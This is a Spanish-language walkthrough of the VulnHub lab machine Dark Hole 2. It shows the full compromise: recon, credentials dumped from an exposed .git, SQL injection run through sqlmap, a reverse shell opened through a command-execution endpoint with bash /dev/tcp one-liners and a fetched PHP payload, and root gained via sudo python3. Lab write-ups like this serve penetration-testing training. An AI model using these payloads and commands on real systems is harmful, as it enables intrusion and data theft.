



# Dark Hole 2 - VulnHub

## Reconocimiento

Vamos a hacer un barrido de la red para ver la IP de la máquina vulnerable

```bash
sudo arp-scan -I ens33 --localnet --ignoredups

192.168.0.40	00:0c:29:3e:69:42	VMware, Inc.
```

Veamos con nmap los puertos abiertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 192.168.0.40 -Pn -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Veamos las versiones de los servicios

```bash
nmap -sCV -p22,80 192.168.0.40

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: DarkHole V2
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   192.168.0.40:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que nos reporta un .git, luego lo analizamos mejor.

Al meternos en http://192.168.0.40/ vemos el sitio con un login:


http://192.168.0.40/login.php



Hagamos un escaneo de directorios y archivos con gobuster

```bash
gobuster dir -u http://192.168.0.40 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200 --exclude-length 3727,21 -x txt,js,php,xml,bak --add-slash

/login.php/           (Status: 200) [Size: 1026]
/icons/               (Status: 403) [Size: 277]
/style/               (Status: 200) [Size: 1729]
/js/                  (Status: 200) [Size: 930]
/index.php/           (Status: 200) [Size: 740]
/logout.php/          (Status: 302) [Size: 0] [--> index.php]
/config/              (Status: 200) [Size: 942]
/dashboard.php/       (Status: 200) [Size: 11]
/.php/                (Status: 403) [Size: 277]
```

Entramos en http://192.168.0.40/.git/ 



Investigando los directorios, en http://192.168.0.40/.git/logs/HEAD vemos lo siguiente:

```
0000000000000000000000000000000000000000 aa2a5f3aa15bb402f2b90a07d86af57436d64917 Jehad Alqurashi <anmar-v7@hotmail.com> 1630317764 +0300	commit (initial): First Initialize
aa2a5f3aa15bb402f2b90a07d86af57436d64917 a4d900a8d85e8938d3601f3cef113ee293028e10 Jehad Alqurashi <anmar-v7@hotmail.com> 1630317980 +0300	commit: I added login.php file with default credentials
a4d900a8d85e8938d3601f3cef113ee293028e10 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 Jehad Alqurashi <anmar-v7@hotmail.com> 1630318472 +0300	commit: i changed login.php file for more secure
```

Hay un commit que puso las credenciales por defecto.

Vamos a traernos el .git con wget y ver lo que había en login.php en ese commit.

```bash
wget -r http://192.168.0.40/.git/
```

```bash
git log

commit 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 (HEAD -> master)
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:14:32 2021 +0300

    i changed login.php file for more secure

commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

commit aa2a5f3aa15bb402f2b90a07d86af57436d64917
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:02:44 2021 +0300

    First Initialize

git show a4d900a8d85e8938d3601f3cef113ee293028e10

+<?php
+session_start();
+require 'config/config.php';
+if($_SERVER['REQUEST_METHOD'] == 'POST'){
+    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+        $_SESSION['userid'] = 1;
+        header("location:dashboard.php");
+        die();
+    }
+
+}
+?>
```

Vemos el correo y credenciales por defecto: `lush@admin.com:321`
Nos logueamos y nos lleva a http://192.168.0.40/dashboard.php?id=1



## Explotación

Tras probar varias cosas como ver las peticiones por burpsuite, he probado esta URL y creo que hay una inyección SQL basada en tiempo pues mediante `http://192.168.0.40/dashboard.php?id=1' and sleep(5)-- -` ha tardado 5 segundos en responder. 

Usamos sqlmap para ver si podemos sacar algo más.

```bash
sqlmap -u "http://192.168.0.40/dashboard.php?id=1" --dbs --batch --cookie="PHPSESSID=2ms1ed7nenhu0oe6a7spdoh4og"

available databases [5]:
[*] darkhole_2
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

Bingo, tenemos una base de datos llamada `darkhole_2`. Vamos a ver las tablas que tiene.

```bash
sqlmap -u "http://192.168.0.40/dashboard.php?id=1" -D darkhole_2 --tables --batch --cookie="PHPSESSID=2ms1ed7nenhu0oe6a7spdoh4og"

[2 tables]
+-------+
| ssh   |
| users |
+-------+
```

```bash
sqlmap -u "http://192.168.0.40/dashboard.php?id=1" -D darkhole_2 -T users --columns --batch --cookie="PHPSESSID=2ms1ed7nenhu0oe6a7spdoh4og"

[6 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| address        | varchar(100) |
| contact_number | int          |
| email          | varchar(100) |
| id             | int          |
| password       | varchar(200) |
| username       | varchar(100) |
+----------------+--------------+
```

```bash
sqlmap -u "http://192.168.0.40/dashboard.php?id=1" -D darkhole_2 -T users -C username,password,email -dump --batch --cookie="PHPSESSID=2ms1ed7nenhu0oe6a7spdoh4og"

[1 entry]
+-----------------------------+----------+----------------+
| username                    | password | email          |
+-----------------------------+----------+----------------+
| Jehad Alqurashiasddasdasdas | 321      | lush@admin.com |
+-----------------------------+----------+----------------+
```

Nos da el usuario que ya tenemos y la contraseña, pero vamos a ver si hay algo más en la tabla ssh.

```bash
sqlmap -u "http://192.168.0.40/dashboard.php?id=1" -D darkhole_2 -T ssh --columns --batch --cookie="PHPSESSID=2ms1ed7nenhu0oe6a7spdoh4og"

[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| user   | varchar(100) |
| id     | int          |
| pass   | varchar(100) |
+--------+--------------+
```

```bash
sqlmap -u "http://192.168.0.40/dashboard.php?id=1" -D darkhole_2 -T ssh -C user,id,pass -dump --batch --cookie="PHPSESSID=2ms1ed7nenhu0oe6a7spdoh4og"

[1 entry]
+--------+----+------+
| user   | id | pass |
+--------+----+------+
| jehad  | 1  | fool |
+--------+----+------+
```

Parámetros como **--os-shell** nos permiten obtener una shell en el sistema operativo y **--os-pwn** nos permite obtener una reverse shell en el sistema operativo

Quitando este dato, vamos a meternos por ssh:

```bash
ssh jehad@192.168.0.40

jehad@darkhole:~$ id
uid=1001(jehad) gid=1001(jehad) groups=1001(jehad)
```

## Escalada de privilegios

Ya vimos que no pertenecemos a ningún grupo relevante, probemos más cosas:

```bash
sudo -l
[sudo] password for jehad: 

find -perm -4000 2>/dev/null
# Nada relevante

getcap -r / 2>/dev/null

/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

cat /etc/crontab

* * * * * root service apache2 start && service mysql start
* * * * * losy  cd /opt/web && php -S localhost:9999
```

Antes de nada, vemos que en /home existen estos directorios:

```bash
jehad  lama  losy
```

En losy esta la flag de usuario user.txt.

Vemos que hay un cron que ejecuta un servicio en /opt/web, vamos a ver que hay ahí:

```bash
ls
index.php

cat index.php 
```

```php
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}


?>
```

Vemos que podemos ejecutar comandos en el servidor como el usuario que ejecuta el cron, que es losy.

Investigando un poco más, en `/var/www/html/config` vemos un config.php con este contenido:

```php
$connect = new mysqli("localhost","root","Qrc123","darkhole_2");
```

Vamos a ver si podemos conectarnos a la base de datos con el usuario root y la contraseña Qrc123.

```bash
mysql -u root -pQrc123 darkhole_2
```

Es la misma base de datos que ya habíamos visto.

Vamos a intentar hacer una petición curl al endpoint que ejecuta comandos en el servidor, para ver si podemos ejecutar comandos como el usuario losy.

```bash
curl "http://localhost:9999/?cmd=whoami"
Parameter GET['cmd']losy
```

En efecto, podemos ejecutar comandos como el usuario losy.

Vamos a entablar una reverse shell para obtener una shell interactiva como el usuario losy.

```bash
curl "http://localhost:9999/?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.19%2F443%200%3E%261"
```
He pasado el tipico onliner de bash para reverse shell por un urlencode para que no de problemas al pasar por la URL.
Nos ponemos a escuchar en el puerto 443 y nos conectamos:

```bash
nc -lvnp 443
```

No nos conecta, vamos a probar con subir un payload de php para reverse shell y ejecutarlo.

```bash
curl "http://localhost:9999/?cmd=wget%20http://192.168.0.19/rev.php"
```

```php
<?php
  system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.19/443 0>&1'");
?>
```

```bash
python3 -m http.server 80
```

No se nos conecta, al igual vamos a probar un port forwarding con ssh para poder conectarnos desde nuestra máquina a la reverse shell.

Vamos a realizar un port forwarding con ssh para poder conectarnos desde nuestra máquina a la reverse shell.

```bash
ssh -L 443:localhost:443 jehad@192.168.0.40
```

Ahora más comodamente desde el navegador podemos ejecutar la reverse shell y nos conectamos a la máquina.

http://localhost:9999/?cmd=bash -c 'bash -i >& /dev/tcp/192.168.0.19/443 0>&1'

```bash
losy@darkhole:/opt/web$ id
uid=1002(losy) gid=1002(losy) groups=1002(losy)
```

En su .bash_history vemos la contraseña de lusy `P0assw0rd losy:gang`

```bash
sudo -l

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```

Ejecutamos python3 como root y obtenemos una shell de root:

```bash
sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash -p")'

root@darkhole:/home/losy# id
uid=0(root) gid=0(root) groups=0(root)
```

Vamos al directorio /root y vemos la flag de root.txt